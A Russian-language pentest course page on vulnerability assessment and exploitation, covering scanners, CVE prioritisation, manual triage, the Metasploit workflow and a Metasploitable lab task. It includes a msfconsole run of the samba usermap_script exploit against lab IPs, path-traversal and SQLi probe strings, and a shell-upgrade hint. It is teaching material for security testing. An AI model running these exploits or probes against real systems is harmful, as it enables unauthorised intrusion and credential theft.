

# Оценка уязвимостей и эксплуатация

<div class="article-tags">
  <span class="tag tag-required">ОБЯЗАТЕЛЬНО</span>
</div>

<span class="complexity-badge">Инженеру</span>
<span class="complexity-badge">Тестировщику</span>

> **Раздел 8.10, шаг 7 из 9.** Предыдущий — [веб-приложения](./4.md); далее — [AD и сервисы](./8.md).

---

## Vulnerability assessment и exploitation

**Vulnerability assessment (VA)** — выявление слабых мест (сканеры, чек-листы, review конфигураций). **Exploitation** — **доказательство**, что слабость реально приводит к компромиссу (shell, чтение данных, обход auth).

| | VA | Exploitation (пентест) |
|---|-----|------------------------|
| Цель | Список проблем | Impact + path |
| Инструменты | Nessus, OpenVAS, Nikto | Metasploit, ручной PoC |
| Риск для prod | Средний (скан) | Выше (exploit) |
| Отчёт | CVE + severity | Chain + business risk |

Пентест **включает** VA, но не сводится к «5000 High в Nessus». Пентестер **верифицирует** и **отбрасывает** false positive.



---

## Автоматизированная оценка

### Сетевые сканеры

| Инструмент | Тип | Плюсы / минусы |
|------------|-----|----------------|
| **Nessus** | Commercial | Широкая база plugins, отчёты для audit |
| **OpenVAS / Greenbone** | Open source | Self-hosted, тяжёлый |
| **Nmap NSE** | Scripting | Лёгкий, `--script vuln` шумный |
| **Nikto** | Web | Misconfig, не логика приложения |

Запуск OpenVAS (концептуально): цель в web UI → task → report XML/PDF. В Kali часто ставят **gvm** или используют Nessus trial.

### DAST для веба

**Burp Scanner Pro**, **OWASP ZAP active scan**, **Acunetix** — отправляют payloads на параметры. Находят **типовые** SQLi/XSS; пропускают business logic.

<div class="callout callout--warning">
  <div class="callout-title">Scanner-only отчёт</div>

  Заказчик, принимающий «чистый» Nessus без ручной верификации, получает 30–70% false positive rate на некоторых plugin families. Пентестер обязан **пройтись** по Critical/High вручную.
</div>

### Приоритизация CVE

При сопоставлении версий с CVE используют:

- **CVSS** — базовая severity (не равна риску для **вашего** актива).
- **EPSS** — вероятность эксплуатации в дикой среде.
- **CISA KEV** — каталог actively exploited.
- **Контекст** — RCE на edge vs info disclosure на dev.

Формула для заказчика: **Risk = f(CVSS, exposure, asset value, exploitability, controls)**.

---

## Ручная верификация

### Чек-лист triage finding

1. **Версия** подтверждена (не только banner)?
2. **Patch level** — может быть backported patch без смены версии?
3. **Compensating controls** — WAF, network ACL?
4. **PoC** воспроизводится **третьим** лицом по шагам?
5. **Impact** сформулирован для business (не «RCE» абстрактно, а «доступ к БД заказов»)?

### Ручные техники без «готового exploit»

| Ситуация | Подход |
|----------|--------|
| Подозрение SQLi | `'`, `sleep`, UNION в Burp Repeater |
| Default credentials | `admin:admin`, vendor docs |
| Path traversal | `../../../etc/passwd` variants |
| Auth bypass | HTTP method tampering, header `X-Original-URL` |
| Deserialization | Gadget chains (Java, .NET) — осторожно в prod |

---

## Exploitation — жизненный цикл

1. **Выбор вектора** из threat model (не «любой Metasploit module»).
2. **Staging** — payload на attacker machine (Kali).
3. **Delivery** — exploit + shellcode / staged connection.
4. **Foothold** — reverse shell, webshell (только lab), credentials.
5. **Stabilization** — TTY, upgrade shell (`python3 -c 'import pty...'`).
6. **Documentation** — timestamp, command, hash screenshot.

### Staged vs stageless payload

**Metasploit** часто использует **staged** payload: маленький stub на цели, основной код подгружается по reverse connection. **Stageless** — один блок; проще для AV, тяжелее для сети.

### Exploit reliability

| Уровень | Смысл |
|---------|-------|
| **Proof** | Демонстрация принципа (crash, partial read) |
| **Functional** | Стабильный shell на lab build |
| **Weaponized** | Reliable на всех патч-уровнях — редко в легальном пентесте |

В отчёте указывают **на какой версии** проверен PoC.

---

## Metasploit Framework — обзор

**Metasploit** — модульная платформа: exploits, payloads, auxiliaries, post modules.

```bash
msfconsole
search type:exploit platform:linux samba
use exploit/multi/samba/usermap_script
show options
set RHOSTS 192.168.56.101
set LHOST 192.168.56.102
run
```

| Модуль | Назначение |
|--------|------------|
| **exploit** | Доставка payload через уязвимость |
| **payload** | Shell, meterpreter, add user |
| **auxiliary** | Scan, fuzz, login brute (не exploit) |
| **post** | После shell — hashdump, screenshot |
| **encoder** | Обфускация payload (слабо vs modern AV) |

**Meterpreter** — advanced payload: migrate process, pivot, kiwi (credentials). В enterprise AV/EDR часто детектится — для stealth используют **custom** payloads или in-memory техники **только** по ROE.

<div class="callout callout--caution">
  <div class="callout-title">Auto-run exploit на prod</div>

  Metasploit module может **положить** сервис или оставить нестабильный shell. На production — ручной PoC, согласованный rollback, snapshot VM.
</div>

### Альтернативы и дополнения

| Tool | Ниша |
|------|------|
| **searchsploit** | Локальная копия Exploit-DB |
| **Exploit-DB** | Публичные PoC |
| **Custom Python/Go** | Точечный exploit под CVE |
| **Impacket** | Windows протоколы (SMB, Kerberos) |
| **Commix** | Command injection automation |

---

## Exploit chaining

Реальные компромиссы — **цепочки**:

```
External SQLi → read AWS keys from env → S3 bucket → internal config → VPN creds → AD user
```

В отчёте **commercial** level каждый hop описан + **единый narrative** «как атакующий дошёл до crown jewel за N часов».

---

## Безопасная эксплуатация в scope

| Правило | Деталь |
|---------|--------|
| Minimal impact | Не `rm -rf`, не mass delete |
| No persistence | Без backdoor после end date без согласования |
| Data handling | Не exfiltrate real PII; synthetic proof |
| Cleanup | Удалить webshell, test accounts |
| Logging | Сохранить для заказчика «что мы делали» |

---

## Практическое задание

1. Proсканируйте Metasploitable **OpenVAS или nmap --script vuln**; выберите 3 findings.
2. Вручную подтвердите одну уязвимость (например, vsftpd 2.3.4 backdoor или weak SSH).
3. Получите shell через Metasploit **или** ручной exploit; зафиксируйте `whoami`, `hostname`.
4. Оформите finding: scanner said → manual steps → impact (3 абзаца).

---

## Связанные материалы

- [Сканирование и брутфорс](./5.md)
- [Уязвимости веб-приложений](./4.md)
- [Pivoting и post-exploitation](./9.md)

---
